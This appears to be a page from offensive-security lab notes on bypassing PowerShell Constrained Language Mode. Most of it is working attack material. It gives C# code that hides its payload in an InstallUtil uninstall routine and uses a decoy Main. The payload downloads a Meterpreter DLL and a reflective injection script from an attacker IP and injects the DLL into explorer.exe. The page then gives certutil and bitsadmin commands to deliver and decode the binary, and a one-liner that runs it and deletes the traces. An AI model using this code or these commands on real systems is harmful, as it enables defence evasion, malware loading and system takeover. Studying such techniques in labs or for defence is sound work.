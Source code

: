 ```yaml
---
title: PowerShell Constrained Language Mode (CLM) Bypass
layout: default
parent: AppLocker / Powershell CLM
nav_order: 2
---
```


## Easy CLM Bypass ##

1. Create a console app in Visual Studio and add the following. `cmd` is the command you want to execute (example below is using reflective DLL Invoke-ReflectivePEInjection.ps1):

```
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace Bypass
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("This is the main method which is a decoy");
        }
    }

    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            String cmd = "$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/met.dll');(New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/Invoke-ReflectivePEInjection.ps1') | IEX; $procid = (Get-Process -Name explorer).Id; Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();

            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;

            ps.AddScript(cmd);

            ps.Invoke();

            rs.Close();
        }
    }
}
```

2\. Need to add reference to the above. Right click <b>References</b> on the Solution Explorer, and select Add References:\
`Assemblies` -> `System.Configuration.Install`
`C:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35` -> `System.Management.Automation.dll`

3\. Compile as 64 bit. For the generated exe file, encode it:
`certutil -encode C:\Users\Offsec\source\repos\Bypass\Bypass\bin\x64\Release\Bypass.exe file.txt`

4\. Move it to Kali machine. Subsequently download the file on the victim machine using bitsadmin:
`bitsadmin /Transfer myJob http://192.168.119.120/file.txt C:\Users\student\enc.txt`

5\. Decode it on the target machine:
`certutil -decode enc.txt Bypass.exe`

4\. Use the following command to execute the file:
`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\student\Bypass.exe`

5\. Alternatively just run the following one liner after step 3 is completed:
`bitsadmin /Transfer myJob http://192.168.119.120/file.txt C:\users\student\enc.txt && certutil -decode C:\users\student\enc.txt C:\users\student\Bypass.exe && del C:\users\student\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\student\Bypass.exe`